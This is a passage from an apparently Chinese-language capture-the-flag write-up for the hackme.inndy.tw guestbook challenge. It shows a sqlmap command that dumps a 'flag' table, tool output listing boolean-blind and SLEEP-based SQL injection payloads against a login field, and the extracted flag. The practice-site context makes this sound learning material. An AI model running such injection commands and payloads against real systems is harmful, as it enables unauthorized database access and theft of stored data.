 ```shell=
| TABLES                                |
| TABLESPACES                           |
| TABLE_CONSTRAINTS                     |
| TABLE_PRIVILEGES                      |
| TRIGGERS                              |
| USER_PRIVILEGES                       |
| VIEWS                                 |
+---------------------------------------+
```
## 第二次
```shell=
python sqlmap.py 
--dbms="MySQL" 
--user-agent="Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:49.0) Gecko/20100101 Firefox/49.0" 
-u "https://hackme.inndy.tw/gb/?mod=del&pid=4" 
-v 6 
--data="user=Wildfoot&password=Wildfoot" 
--dump -D guestbook -T flag 
#dump出 guestbook.flag理面的資料
--batch
```
```shell=
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: user (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (NOT)
    Payload: user=Wildfoot' OR NOT 8219=8219-- ZGiV&password=Wildfoot
    Vector: OR NOT [INFERENCE]

    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 OR time-based blind
    Payload: user=Wildfoot' OR SLEEP(5)-- HQoJ&password=Wildfoot
    Vector: OR [RANDNUM]=IF(([INFERENCE]),SLEEP([SLEEPTIME]),[RANDNUM])
---
web server operating system: Linux Ubuntu
web application technology: Nginx
back-end DBMS: MySQL >= 5.0.0
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: user (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (NOT)
    Payload: user=Wildfoot' OR NOT 8219=8219-- ZGiV&password=Wildfoot
    Vector: OR NOT [INFERENCE]

    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 OR time-based blind
    Payload: user=Wildfoot' OR SLEEP(5)-- HQoJ&password=Wildfoot
    Vector: OR [RANDNUM]=IF(([INFERENCE]),SLEEP([SLEEPTIME]),[RANDNUM])
---
web server operating system: Linux Ubuntu
web application technology: Nginx
back-end DBMS: MySQL >= 5.0.0
Database: guestbook
Table: flag
[3 entries]
+----+----------------------------------------------------+----------+----------+
| id | flag                                               | padding1 | padding0 |
+----+----------------------------------------------------+----------+----------+
| 1  | http://i.giphy.com/3o72FdPiRXBRbBLUc0.gif          | 31415926 | 1337     |
| 2  | FLAG{Y0U_KN0W_SQL_1NJECT10N!!!' or 595342>123123#} | 88       | 77       |
```